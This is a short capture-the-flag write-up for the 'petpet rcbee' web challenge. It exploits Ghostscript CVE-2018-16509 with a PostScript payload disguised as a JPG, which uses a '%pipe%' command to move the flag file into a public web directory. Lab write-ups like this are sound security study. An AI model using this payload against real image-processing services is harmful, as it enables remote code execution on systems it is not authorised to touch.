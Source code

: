 # petpet rcbee

Ok so we start with that nice little page:

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

While looking at the files we can see a version of ghostscript:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

I find this CVE for that version: [https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

So what this we can try and move the flag to a directory we control, on the main web page we see those links:

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

So let's create a fake jpg file and move the flag to a directory we can access ->

```
└──╼ [★]$ cat rce.jpg 
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%mv /app/flag /app/application/static/assets)
currentdevice putdeviceprops
```

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

and then we get the flag here: view-source:http://{IP}:{PORT}/static/assets/flag

